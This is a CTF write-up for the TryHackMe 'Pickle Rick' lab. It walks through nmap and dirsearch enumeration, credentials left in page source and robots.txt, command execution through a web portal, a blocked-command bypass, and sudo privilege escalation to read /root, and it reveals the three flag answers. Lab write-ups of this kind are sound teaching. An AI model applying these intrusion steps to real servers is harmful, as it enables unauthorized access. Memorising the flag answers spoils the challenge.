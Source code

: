 ```yaml
---
tags: [tryhackme, exploit, easy]
categories: [tryhackme, exploit, easy]
icon: chevron-right
author: Ivo Muijtjens
date: 2022-05-29
---
```

![](/static/headers/pickle-rick.png)

# Pickle Rick

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle. As preparation for this room, I recommend following the Web Hacking Fundamentals path to get familair with the commands:

[!ref target="blank" text="How websites work" icon="../static/icons/websites.png"](https://tryhackme.com/room/howwebsiteswork)
[!ref target="blank" text="HTTP in detail" icon="../static/icons/http.png"](https://tryhackme.com/room/httpindetail)
[!ref target="blank" text="Burp Suite: The Basics" icon="../static/icons/burp.png"](https://tryhackme.com/room/burpsuitebasics)
[!ref target="blank" text="OWASP Top 10" icon="../static/icons/owasp.png"](https://tryhackme.com/room/owasptop10)
[!ref target="blank" text="OWASP Juice Shop" icon="../static/icons/juice.png"](https://tryhackme.com/room/owaspjuiceshop)
[!ref target="blank" text="Upload Vulnerabilities" icon="../static/icons/vulnerabilities.png"](https://tryhackme.com/room/uploadvulns)

---

# Writeup

### Enumeration

**What is the first ingredient Rick needs?**

First step is to start with enumeration. Let's start with a nmap scan on the IP-address of the webserver: `nmap -A 10.10.92.155 -Pn`.

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 06:11 EDT
    Nmap scan report for 10.10.92.155
    Host is up (0.035s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ea:6b:0c:04:ff:3b:ce:b6:53:30:83:5e:94:26:e3:30 (RSA)
    |   256 b8:cf:b9:98:7d:c5:10:62:e1:76:ea:fa:cc:d5:43:95 (ECDSA)
    |_  256 c1:8f:c0:60:46:f4:e9:72:fb:e8:5f:40:15:a6:eb:98 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Rick is sup4r cool
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds

The nmap scan gives us some information. There are 2 open ports: 22 (SSH) and 80 (HTTP). The webserver runs on Apache 2.4.18. Let's open the webpage in our browser to investigate it a little more.

![Homepage of the website](/static/images/website.png)

No useful data visible on the homepage. What if we view the page source?

![Page source of the website](/static/images/pagesource.png)

We see the developer made a HTML comment between the `<!-- -->` tags. Now we know the username, but how can we use it? The homepage looks like a static webpage without a login form. Let's dig in a little further.

    <!--

        Note to self, remember username!

        Username: R1ckRul3s

    -->

I've use the tool dirsearch to scan the webserver: `dirsearch -u http://10-10-92-155.p.thmlabs.com/`. The tool found some interesting files and directories to work with.

    [06:45:04] 200 -    2KB - /assets/
    [06:45:10] 200 -    1KB - /index.html                                       
    [06:45:12] 200 -  882B  - /login.php                                        
    [06:45:18] 200 -   17B  - /robots.txt

First thing I did was checking the files in the assets folder. It contains some images plus .css and .js files. I can't find something useful in here.

![Assets](/static/images/assets.png)

The `index.html` file is the default homepage. Next is a `login.php` file which is the most interesting file. Let's open this in our browser to see what is does:

![Portal login page](/static/images/login.png)

A login page that requires a username and password. We found out about the username, but we don't have a password. First of all, let's check the last file that we found with dirsearch: `robots.txt`. This file tells search engine crawlers which URL's it may access on a webserver. This file contains a weird word: `Wubbalubbadubdub`. Could this be our password? Let's try it out on the login page.

**Username:** R1ckRul3s

**Password:** Wubbalubbadubdub

We're in and have been redirected to `portal.php`. Type in `ls` to list all files and directories. I see 2 interesting files: `Sup3rS3cretPickl3Ingred.txt` and `clue.txt`.

![Command panel](/static/images/command.png)

Let's try the command `cat Sup3rS3cretPickl3Ingred.txt` to see if we can read the contents of the file. The command is disabled.

![Command disabled](/static/images/disabled.png)

We have another utility in Linux to read file contents, let's try the `less` command: `less Sup3rS3cretPickl3Ingred.txt`. That command isn't blocked. We found our first flag.

==- Reveal Flag 1
mr. meeseek hair
===

**Whats the second ingredient Rick needs?**

Remember there was a second file called `clue.txt`. Let's find out if it can lead us to other flags. Type in `less clue.txt`.

    Look around the file system for the other ingredient.

So we can find the other flags by looking around in the file system. First I'm gonna check if there is a home folder. To combine command I'm gonna use the `&&` operator, since the portal page changes back to the webroot after every executed command. The first command I used is `cd /home && ls`. The output shows me there are 2 homefolders:

    rick
    ubuntu

Let's check the contents of the folder `rick`. Change the command to `cd /home/rick && ls` and execute it. Cool, there is a file called `second ingredients`. Let's open it with the `less /home/rick/'second ingredients'` command. There is our second flag.

==- Reveal Flag 2
1 jerry tear
===

**Whats the final ingredient Rick needs?**

What other files can I found on the file system? Let's see if I'm able to run sudo with the command `sudo -l`.

    Matching Defaults entries for www-data on ip-10-10-92-155.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on ip-10-10-92-155.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL

Yes, I can. Now that I've confirmed I can run sudo, I'm able to access the root directory. I can list the contents with command `sudo ls -la /root`.

    total 28
    drwx------  4 root root 4096 Feb 10  2019 .
    drwxr-xr-x 23 root root 4096 May 29 10:10 ..
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    drwx------  2 root root 4096 Feb 10  2019 .ssh
    -rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
    drwxr-xr-x  3 root root 4096 Feb 10  2019 snap

There is a file called `3rd.txt` that might be interesting. Let's read the contents with command `sudo less /root/3rd.txt`. This file contains our last flag.

==- Reveal Flag 3
fleeb juice
===

!!!success
Congratiulations, you've completed the room.
!!!